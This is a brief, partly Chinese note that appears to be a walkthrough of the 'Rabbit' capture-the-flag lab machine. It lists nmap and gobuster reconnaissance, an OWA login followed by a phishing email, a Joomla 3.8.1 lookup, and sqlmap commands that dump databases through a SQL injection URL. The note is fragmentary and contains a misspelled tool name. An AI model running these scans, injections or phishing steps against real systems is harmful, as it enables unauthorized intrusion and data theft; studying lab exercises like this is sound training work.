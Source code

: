 
# Rabbit

``` 
nmap -sC -sV -oA nmap/rabbit 10.10.10.71
nslookup
> server 10.10.10.71
> rabbit.htb.local
nmap -6 <Address>
gohubster -k -u http://10.10.10.71 -w /usr/share/wordlists/dirbuster/directory.txt -o gobuster.small.443
```
找到/public的目录
``` 
search owa

```
得到owa的账号密码，访问/owa目录，并登录，发送钓鱼邮件  
之后又扫描出/joomla目录，得知joomla的版本3.8.1  
google -> joomla core exploit

* 查看/Complain目录
``` 
searchsploit complain 
```
得到sql注入页面，/view.php?mod=admin&view=repod&id=plans  
``` 
sqlmap -r report.req --technique=U --dbms=mysql --dump
sqlmap -r report.req --technique=U --dbms=mysql --dbs
```

